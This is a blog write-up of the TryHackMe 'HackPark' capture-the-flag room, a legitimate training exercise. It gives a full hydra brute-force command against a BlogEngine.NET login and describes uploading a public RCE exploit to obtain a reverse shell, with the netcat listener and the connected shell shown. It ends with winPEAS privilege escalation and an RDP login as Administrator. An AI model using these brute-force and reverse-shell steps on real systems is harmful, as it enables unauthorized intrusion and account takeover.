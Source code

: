 ```yaml
---
layout: single
title:  "HackPark Writeup - TryHackMe"
date:   2020-07-31 20:00:00 -0400
classes: wide
categories: THM
tags:
 - Bruteforcing
 - Privesc
 - OSCP
 - Hydra
 - winPEAS
---
```


This time we will be resolving the [HackPark](https://tryhackme.com/room/hackpark) room from [TryHackMe](https://tryhackme.com/). This box is part of the Offensive pentesting learning path so it will be very useful for our OSCP journey.

## Room info

![Machine Info](/images/THM/HackPark/01-machine-info.png "Machine Info"){: .align-center}

## Enumeration

For some reason, nmap is not giving any information about the open ports for this machine, but I'll anticipate that we have ports **80** and **3389** open.

First of all, taking a look of the website ```http://10.10.203.246``` we can see the following landing page:

![Landing Page](/images/THM/HackPark/00-landing-page.png "Landing Page"){: .align-center}

Doing a reverse image search on the clown picture, we can tell that is **Pennywise** from IT movie.

Moving on, the next interesting section of the website is the **Log In** panel on the right menu.

![Right Menu](/images/THM/HackPark/02-login.png "Right Menu"){: .align-center}

So, we click on **Log In** and get to a login page. In the landing page we see **Blogengine.net** and a typical login form for username and password inputs.

URL: ```http://10.10.203.246/Account/login.aspx```

![Login](/images/THM/HackPark/03-blog-login.png "Login"){: .align-center}

As we know, the room description says we will be using hydra for bruteforcing. So, before that is important to know what is the default user for **Blogengine**. 

After a quick Google research we got **admin** as the default user and from now on just need to obtain the password through bruteforcing with Hydra.

## Exploiting

For the tool to work, we need to specify the following information:

> hydra -l [User] -P [Pass] [Target IP] [Request Method] "[Login form Path]:[Request body]:[Failure message]"

- The user field is ```admin```.
- For the **Pass** field we will be using ```rockyou.txt``` wordlist.
- The target IP is ```10.10.203.246```.
- The login form path will be ```/Account/login.aspx```.

For the rest, we will have to do a little research on the login page. Using the Developer tools from our browser we can see how the login form sends the request.

The network tab will show us the request method whenever we make a submit on the login form. So, let's go ahead and make a request with the following parameters:

- Username: ```usertest```.
- Password: ```passtest```.

![Method](/images/THM/HackPark/03-form-method.png "Method"){: .align-center}

Now we know the form is using **POST** method to make the request, and using the **Edit and Resend** button in the bottom right corner we can see the raw body request. Finally, we also get the message whenever a wrong user/pass is entered: ```Login failed```. 

![Request](/images/THM/HackPark/03-request.png "Request"){: .align-center}

**Request Body**
```bash
__VIEWSTATE=49GAAjlZ%2B4B1%2Bz38DrOFSr7m8aWbh0CXLp8Xr2aPBM2liP4BPRanZv%2Bsnfh62wyJQLsPPiHvYs6oZ5ngezwSDWtN9kSbkJYkqhj%2Fdcvfk0iQv7ShrL9zDiVLHkHAzvF7bEV0%2FgUB5BfJVrw0MFhYcvzn9a0rlmhy8J%2BMjjD53W4mULD4&__EVENTVALIDATION=sXh8q7nd3FnQbnON%2BvVUJwD7BbO7R8oPcmNeBZMWODV4Exie1bp00VsrrcY70IHcnw%2B3oo%2Bgu%2FXsUt2HuFYShgSXZf1qf%2FOosRaywgIUr7HIriKizOiGdSotndccZxhlmHYKGSu9iGAuAQsT5%2BZoAu3zLyGex42pPknzmCQw5%2FRCe%2BUN&ctl00%24MainContent%24LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

For hydra to work, we need to specify a couple of placeholders for the USER and PASS parameters in the request. If we take a closer look to the raw request, we can see the user and pass entered earlier: 

```
LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest
```

So in this case, we replace **usertest** for ```^USER^``` and **passtest** for ```^PASS^```.

```
LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^
```

**Full command**

After getting all the information, the full command looks like this:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.203.246 http-post-form "/Account/login.aspx:__VIEWSTATE=DuOBP%2BgZJeq6AMydj5niN1uZM%2FDPpZMaxfWo5oEC4brEJy1oBLy29HUrOfHMJVOGXkG1660e6jVooc9Yq08XSwXuS6%2BEAz0wmCd9zrPJ%2FvRTEfvW4%2FydsHFgcUy%2BaIkSagapG4M4u0EK%2FxLTi5gChTWoajmuqFTxAa8qQQJOi7n9k0Fmpfq1MZzahKDFn5OJvCfq6JW%2FQVV4w%2FwQsnL03wpViAbcqU5CAVBTo9igmfmnTanl64dDgoz8ZkXx0sfLD8O136c%2BVm6kcfY3olmQUP34NqflsNH9hVBYr4piqoMqK%2BQjG2SI4cgyyRbcUjLnOryib9veu%2BsGI147wYnLVmnQT1HR0uePIIBJ%2BA3UQJZngtnK&__EVENTVALIDATION=yxXvvmOhIbyz01WxElUbLdtpbMGxCzl5Rt2yC8ppVo8aEkoGj61ik751%2FMdx5Ea6wPF4FA5bjdCtJ%2BJ2terqrBoDEHH8mETsjtorsuBx5xG0AxeHmiNLCZGHt0BDXhVuDeihrfZuN6Wb89YIQvzsLZT4aFAD2DEeuiF3stBpJy%2Bco6jP&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -t 60 -V
```
So we launch hydra and in a couple of minutes we get the password for the user admin.

![Hydra bruteforcing](/images/THM/HackPark/02-hydra-BF-blur.png "Hydra bruteforcing"){: .align-center}

Logging in, the first thing to do is find the CMS version, for this we navigate to the About tab on the sidebar menu.

![Blog version](/images/THM/HackPark/03-blog-version.png "Blog version"){: .align-center}

With this information, now we proceed to take a look on exploitdb if there is already an exploit or CVE for this CMS. 

![Searchsploit](/images/THM/HackPark/04-searchsploit.png "Searchsploit"){: .align-center}


There is indeed an exploit available for our CMS version. Lets take a look to the one named [BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution](https://www.exploit-db.com/exploits/46353) and read it carefully.

It is a exploit written in C# which will allow us to get a reverse shell exploiting a vulnerable code in the ```PostList.ascx.cs``` file. To abuse this vulnerability, we have to do the following:

- Edit the exploit with our local IP address and Port for the reverse shell.

![Exploit](/images/THM/HackPark/04-modify-exploit.png "Exploit"){: .align-center}

- Set a listener with the same parameters.

```go
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
```

- Rename the exploit as: ```PostView.ascx```.
- In the CMS, navigate to ***Content > Posts > New*** and add a new post uploading our ```PostView.ascx``` file. Click on the open folder icon.

![Exploit Upload 1](/images/THM/HackPark/06-upload-01.png "Exploit Upload 1"){: .align-center}

- Upload the exploit using the file manager and add it to the new post.

![Exploit Upload 2](/images/THM/HackPark/06-upload-02.png "Exploit Upload 2"){: .align-center}

- Set a title and save it.

![Exploit Upload 3](/images/THM/HackPark/06-upload-03.png "Exploit Upload 3"){: .align-center}

- Open the URL: ```http://10.10.203.246/?theme=../../App_Data/files```.

Finally we get the reverse shell.

```go
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.13.0.103] from (UNKNOWN) [10.10.203.246] 49428
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

## Privilege Escalation

For privesc we are going to use [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) which is awesome for a system quick scan. We need to make sure to download the correct version of the binary as we are in a x64 machine.

```batch
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard Evaluation
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-10000-00000-AA228
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          7/31/2020, 9:45:02 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
```
With the tool already in the machine, we proceed to run it by simply doing ```winPEAS.exe``` from the console. Then we will take a moment to analyze the output. 

Scrolling through, we reach the following section that looks interesting:

![Autologon Credentials](/images/THM/HackPark/06-credentials-blur.png "Autologon Credentials"){: .align-center}

**winPEAS** just found us some autologon credentials from the **Administrator** user, so the next step will be checking this using RDP.

```bash
xfreerdp /u:Administrator /p:4q6Xv******** /v:10.10.203.246
```

![Administrator access](/images/THM/HackPark/07-admin-access.png "Administrator access"){: .align-center}

That's it! Now we have Administrator privileges and access to the root flag in the desktop.